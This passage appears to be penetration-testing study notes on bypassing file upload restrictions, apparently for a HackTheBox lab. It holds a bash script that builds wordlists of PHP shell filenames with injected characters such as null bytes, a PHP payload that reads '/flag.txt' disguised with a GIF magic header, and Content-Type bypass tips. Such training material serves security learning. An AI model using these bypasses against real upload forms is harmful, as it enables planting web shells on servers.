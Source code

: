 ### Extra Client Side  

>Client side html code alter to allow file upload validation bypass by removing `validate()`, optional clearing the `onchange` and `accept` values.  

![uploads-client-side-html](/images/uploads-client-side-html.png)  

### Extra Wordlist Script  

>Character Injection - Before/After Extension to generate list of possible filenames to bypass file upload filters on white or black listings.  

```bash
for char in '%20' '%0a' '%00' '%0d0a' '/' '.\\' '.' '…' ':'; do
    for ext in '.php' '.php3' '.php4' '.php5' '.php7' '.php8' '.pht' '.phar' '.phpt' '.pgif' '.phtml' '.phtm'; do
        echo "shell$char$ext.jpg" >> filenames_wordlist.txt
        echo "shell$ext$char.jpg" >> filenames_wordlist.txt
        echo "shell.jpg$char$ext" >> filenames_wordlist.txt
        echo "shell.jpg$ext$char" >> filenames_wordlist.txt
    done
done
```  

## Content/Type Bypass  

| **Command**   | **Description**   |
| --------------|-------------------|
| [Web Content-Types](https://github.com/danielmiessler/SecLists/blob/master/Miscellaneous/web/content-type.txt) | List of [Web Content-Types](https://academy.hackthebox.com/module/136/section/1290) |
| [Content-Types](https://github.com/danielmiessler/SecLists/blob/master/Discovery/Web-Content/web-all-content-types.txt) | List of All Content-Types |
| [File Signatures](https://en.wikipedia.org/wiki/List_of_file_signatures) | List of File Signatures/Magic Bytes |

>Example of the Payload code for the file being uploaded, `<?php echo file_get_contents('/flag.txt'); ?>`, add `GIF8` at top of file body and keep the file name as `shell.php`. The `Content-Type:` is then the injection payload position for Burp Suite Intruder using the above wordlists.  


## Limited Uploads

| **Potential Attack**   | **File Types** |
| --------------|-------------------|
| `XSS` | HTML, JS, SVG, GIF |
| `XXE`/`SSRF` | XML, SVG, PDF, PPT, DOC |
| `DoS` | ZIP, JPG, PNG |
